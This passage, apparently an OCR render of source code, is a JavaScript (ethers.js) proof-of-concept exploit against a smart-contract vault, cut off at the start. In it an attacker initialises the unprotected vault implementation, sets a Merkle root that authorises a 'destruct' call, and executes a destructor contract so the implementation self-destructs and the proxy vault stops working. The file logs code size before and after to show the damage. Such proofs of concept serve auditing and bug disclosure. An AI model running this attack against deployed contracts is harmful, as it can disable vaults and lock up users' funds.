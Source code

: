 ```javascript
    const leafData = abi.encode(["address", "address", "bytes4"],
        [attacker.address, destructor.address, destructor.interface.getSighash("destruct")]);
    const leafHash = ethers.utils.keccak256(leafData);

    await vaultImpl.connect(attacker).init();

    await vaultImpl.connect(attacker).setMerkleRoot(leafHash);
    // we don't really need to do this ownership-transfer, because the contract is still usable till the end of the tx, but I'm doing it just in case
    await vaultImpl.connect(attacker).transferOwnership(ZERO_ADDRESS);

    // before: everything is fine
    let implVaultCode = await ethers.provider.getCode(implVaultAddress);
    console.log("Impl Vault code size before:", implVaultCode.length - 2); // -2 for the 0x prefix
    let owner = await proxyVault.owner();
    console.log("Proxy Vault works fine, owner is: ", owner);


    await vaultImpl.connect(attacker).execute(destructor.address, destructData, []);


    // after: vault implementation is destructed
    implVaultCode = await ethers.provider.getCode(implVaultAddress);
    console.log("\nVault code size after:", implVaultCode.length - 2); // -2 for the 0x prefix

    try {
        owner = await proxyVault.owner();
    } catch (e) {
        console.log("Proxy Vault isn't working anymore.", e.toString().substring(0, 300));
    }
}

async function deployVault(baseVault, registry, attacker) {
    const nodes = await baseVault.getLeafNodes();

    const tx = await registry.connect(attacker).create(nodes[0], [], []);
    const receipt = await tx.wait();

    const vaultEvent = receipt.events.find(e => e.address == registry.address);

    const newVaultAddress = vaultEvent.args._vault;
    const newVault = await ethers.getContractAt("Vault", newVaultAddress);
    return newVault;
}


if (require.main === module) {
    main()
}
```
